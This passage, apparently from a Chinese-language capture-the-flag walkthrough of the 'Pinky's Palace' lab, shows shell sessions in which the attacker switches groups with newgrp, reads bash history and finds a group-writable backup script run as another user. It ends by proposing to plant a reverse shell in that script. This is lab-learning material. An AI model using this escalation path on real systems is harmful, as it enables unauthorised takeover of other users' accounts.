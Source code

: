 ```shell
pinky@Pinkys-Palace:~/tools$ id
id
uid=1000(pinky) gid=1002(stefano) groups=1002(stefano)
pinky@Pinkys-Palace:~/tools$ newgrp
newgrp
pinky@Pinkys-Palace:~/tools$ id
id
uid=1000(pinky) gid=1000(pinky) groups=1000(pinky),1002(stefano)
```

进入到`pinky`家目录，查看bash历史命令

```shell
pinky@Pinkys-Palace:/home/pinky$ cat .bash_history
cat .bash_history
ls -al
cd
ls -al
cd /usr/local/bin
ls -al
vim backup.sh 
su demon
```

```shell
pinky@Pinkys-Palace:~/tools$ cd /usr/local/bin
cd /usr/local/bin
pinky@Pinkys-Palace:/usr/local/bin$ ls
ls
backup.sh
pinky@Pinkys-Palace:/usr/local/bin$ cat backup.sh
cat backup.sh
cat: backup.sh: Permission denied
pinky@Pinkys-Palace:/usr/local/bin$ ls -la
ls -la                              
total 12                                                                             
drwxrwsr-x  2 root  staff 4096 Mar 17  2018 .
drwxrwsr-x 10 root  staff 4096 Mar 17  2018 ..
-rwxrwx---  1 demon pinky  181 Nov 16 23:44 backup.sh
pinky@Pinkys-Palace:/usr/local/bin$ newgrp                              
newgrp
pinky@Pinkys-Palace:/usr/local/bin$ cat backup.sh
cat backup.sh
#!/bin/bash

rm /home/demon/backups/backup.tar.gz
tar cvzf /home/demon/backups/backup.tar.gz /var/www/html
#
#
#
```

猜测是一个定时备份任务，尝试写入反弹shell
